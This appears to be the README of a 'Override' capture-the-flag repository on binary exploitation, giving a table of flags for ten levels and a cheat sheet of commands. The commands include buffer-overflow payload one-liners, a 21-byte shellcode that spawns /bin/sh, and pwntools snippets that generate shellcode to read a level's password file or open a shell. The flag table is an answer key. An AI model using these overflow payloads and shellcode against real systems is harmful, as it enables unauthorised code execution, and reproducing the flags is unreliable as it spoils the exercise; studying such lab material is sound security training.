 # Override

# Description

...

# Flag

| N°      | Name            | Flag                                     |
|:-------:|-----------------|------------------------------------------|
| level00 | Atoi            | uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL |
| level01 | Buffer Overflow | PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv |
| level02 | Printf Format   | Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H |
| level03 | Switch Case     | kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf |
| level04 | Fork No Exec    | 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN |
| level05 | Printf Format 2 | h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq |
| level06 | Simple Auth     | GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8 |
| level07 | Jump Shellcode  | 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC |
| level08 | Double Open     | fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S |
| level09 | Simple BO       | j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE |

## Commands

```
export FILE=level02; mkdir $FILE; cd $FILE; touch source flag README.md; mkdir Ressources; cd Ressources; scp -P 4242 $FILE@192.168.1.116:/home/users/$FILE/$FILE .
```

### Overflow
#### Basic
```
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

#### Shellcode
```
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
#### Cat
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

#### Exec sh 1
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

#### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

### GCC
#### Get env address
```
x/10s **(char***)&environ
```
